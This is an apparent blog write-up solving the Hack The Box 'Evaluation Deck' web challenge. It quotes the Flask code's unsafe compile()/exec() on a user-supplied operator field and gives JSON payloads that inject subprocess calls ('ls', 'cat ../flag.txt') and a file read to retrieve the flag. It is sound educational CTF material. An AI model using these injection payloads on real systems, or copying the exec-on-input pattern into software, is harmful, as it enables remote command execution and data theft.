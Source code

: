 ```yaml
---
title: "Evaluation Deck"
date: 2022-10-28 00:00:00 +0800
categories: [Walkthrough, Hack The Box]
tags: [Hack The Boo 2022]
---
```


## Details
- Platform: [Hack The Box](/categories/hack-the-box/)
- Event: [Hack The Boo 2022](/tags/hack-the-boo-2022/)

## Setting
>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Walkthrough
Firstly I just played the game to understand the intended functionality.
![img1](/assets/img/Screenshot 2022-10-23 at 01.05.43.png)
_Evaluation Deck - Mid Game_

To be honest, I had no idea what was going on at first. I turned over some cards and the ghost would seemingly get dealt some damage or for some reason restore its health. I couldnt see any correlation to the damage or health restoration in the GUI, so I decided to look for answers in the source code.
![img2](/assets/img/Screenshot 2022-10-23 at 01.06.00.png)
_Evaluation Deck - Victory State_

Looking through the source code, I found power and operator attributes which looked interesting. It seemed like they were being used to calculate damage to the ghost. The `operator` attribute for decreasing or adding health, and the `power` attribute to specify how much. If that calculation is done on the server, this could lead to some code injection.
![img3](/assets/img/Pasted image 20221028162029.png)
_power and operator attributes!_

I tested it out by changing the `power` and `operator` attribute values and I could now control the game. I was now able to lose. It's actually really difficult to lose this game 😂

![img4](/assets/img/Screenshot 2022-10-23 at 01.07.54.png)
_Evaluation Deck - Game Over State_

I couldn't find any Javascript scripts doing any health management logic, so I checked out the requests made. I tapped a card and saw that a request was made to `/api/get_health` with the following JSON payload:
```json
{
	"current_health":"100",
	"attack_power":"20",
	"operator":"-"
}
```

If you check the provided code, you can see that the application is made with Python and Flask, but you could also find this out with some OSINT and/or Enumeration.

Time to try some code injection. You could argue that `attack_power` is a number so it might be limited to or parsed as a number on the backend, but you could also argue that there is only 2 operaters used in the game and there might be a filter to see if the input is one of those 2 operators. So going in blind, I would just try both.
But as we have the code, we can see that the operator has no restrictions on it.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power') #← html attribute 1 
    operator = data.get('operator') #← html attribute 2
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. major red flag!
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

the f-string `f'result = {int(current_health)} {operator} {int(attack_power)}'` shows the operator variable is plopped in the middle with no filtering or casting, so I crafted a python payload to test if I could run some system level commands:

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['ls', '../', '-la'], capture_output=True).stdout.decode('ASCII')#"
}
```

and I could!

```json
"message": "total 72\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 .\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 ..\ndrwxr-xr-x 1 root root 4096 Oct 21 15:07 app\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 bin\ndrwxr-xr-x 5 root root 360 Oct 22 15:45 dev\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 etc\n-rw-r--r-- 1 root root 32 Oct 21 13:33 flag.txt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 home\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 lib\ndrwxr-xr-x 5 root root 4096 Aug 9 08:47 media\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 mnt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 opt\ndr-xr-xr-x 376 root root 0 Oct 22 15:45 proc\ndrwx------ 1 root root 4096 Oct 21 15:06 root\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 run\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 sbin\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 srv\ndr-xr-xr-x 13 root root 0 Oct 22 15:45 sys\ndrwxrwxrwt 1 root root 4096 Oct 22 15:45 tmp\ndrwxr-xr-x 1 root root 4096 Oct 21 15:06 usr\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 var\n"
```

Now I know I have access to the server, I could try to get a reverse shell, but knowing where the flag is due to the provided code, I could just change the system command to `cat` the flag (print it out to the standard output).

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['cat', '../flag.txt'], capture_output=True).stdout.decode('ASCII')#"
}
```

and the response sends back the flag!

```json
{
	"message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}
```

#### Alternative Payload
Looking at the backend code, I know that the variable `result` stores the message that the server is sending back to me:
```python
result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. red flag!
        exec(code, result) #← exec() is used with compile(). major red flag!
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

So I could alternatively use a payload where I set `result` to the contents of the flag:
```json
{
	"current_health":"100",
	"attack_power":"65",
	"operator":";result=open('../flag.txt').read()#"
}
```